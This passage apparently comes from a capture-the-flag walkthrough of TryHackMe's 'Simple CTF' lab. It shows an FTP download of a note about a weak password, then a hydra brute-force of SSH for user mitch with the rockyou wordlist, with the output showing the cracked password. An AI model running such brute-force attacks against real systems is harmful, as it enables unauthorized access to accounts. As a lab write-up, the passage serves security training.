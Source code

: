 ~~~
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (251.7226 kB/s)
ftp> exit
221 Goodbye.
~~~

The file is a note for user `mitch` and the sender is complaining about mitch's weak password.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Simple_CTF/files]
└─$ cat ForMitch.txt 
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
~~~

This is useful for us, because we might be able to brute-force the password.

# SSh
## Brute-forcing SSH

I used `hydra` to brute-force the password for user `mitch`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Simple_CTF]
└─$ hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://$IP:2222
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:18:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.134.5:2222/
[2222][ssh] host: 10.10.134.5   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
~~~

Mitch's password: `secret`

## Log into SSH
